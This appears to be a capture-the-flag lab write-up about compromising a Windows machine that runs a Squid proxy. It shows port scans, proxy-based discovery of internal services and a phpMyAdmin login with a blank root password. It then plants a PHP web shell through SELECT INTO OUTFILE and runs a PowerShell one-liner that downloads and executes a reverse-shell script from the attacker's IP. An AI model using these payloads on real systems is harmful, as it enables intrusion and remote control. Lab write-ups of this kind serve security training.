









# SQUID

OS: Windows

# nmap

```sh
Nmap scan report for 192.168.169.189
Host is up, received user-set (0.046s latency).
Scanned at 2023-08-24 18:19:30 +08 for 106s
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE    REASON
3128/tcp open  squid-http syn-ack
```

This is quite unusual to see one port open on a windwos machine.

```sh
# Nmap 7.93 scan initiated Thu Aug 24 18:22:58 2023 as: nmap -sC -sV -vv --min-rate 2000 -oA openscsv -p 3128 -Pn 192.168.169.189
Nmap scan report for 192.168.169.189
Host is up, received user-set (0.020s latency).
Scanned at 2023-08-24 18:22:58 +08 for 32s

PORT     STATE SERVICE    REASON  VERSION
3128/tcp open  http-proxy syn-ack Squid http proxy 4.14
|_http-server-header: squid/4.14
|_http-title: ERROR: The requested URL could not be retrieved
```

Se wee see that the port runs a Squid HTTP Proxy Server

> Squid is a caching and forwarding HTTP web proxy. It has a wide variety of uses, including speeding up a web server by caching repeated requests, caching web, DNS and other computer network lookups for a group of people sharing network resources, and aiding security by filtering traffic.



We can scan the target with a help of a tool called spose.py  [spose](https://github.com/aancw/spose).
This tool makes a simple http-get request to the target; ‘http://IP:PORT’ and suggests that the port is open when URL status cide 200, 404 or 401 is returned.

```sh
 python spose.py --proxy http://192.168.171.189:3128 --target 127.0.0.1
Using proxy address http://192.168.171.189:3128
127.0.0.1 3306 seems OPEN 
127.0.0.1 8080 seems OPEN 
                              
```
Cool! Let's check 8080 out

We can visit the page through our browser using FoxyProxy:






We visit the phpmyadmin site and  login with root as username and empty password.     

> phpMyAdmin is a free software tool written in PHP, intended to handle the administration of MySQL over the Web. 



On the phpinfo page we can find the document root so we know where to write the file:



Let's write “TEST” to a file in the documentroot C:/wamp/www by executing the sql command in the console:

```sql
SELECT "TEST" into OUTFILE "C:/wamp/www/test.txt"
```




Info about the funcion and syntax can be found here: https://mariadb.com/kb/en/select-into-outfile/
We visit the page and.....success!


Now we will see if we can get some code execution by crafting a php file.:

```php

<?php echo shell_exec($_GET['cmd']);?>
```


```sql

SELECT "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE "C:/wamp/www/cmd.php";
```



Boom! we have command execution!



No we need to get a proper shell:

```sh
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```

```sh
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.45.158 -Port 443
```

Serve the ps1 file and execute the command:

`http://127.0.0.1:8080/cmd.php?cmd=powershell%20IEX(New-Object%20Net.WebClient).downloadString(%27http://192.168.45.158/Invoke-PowerShellTcp.ps1%27)`



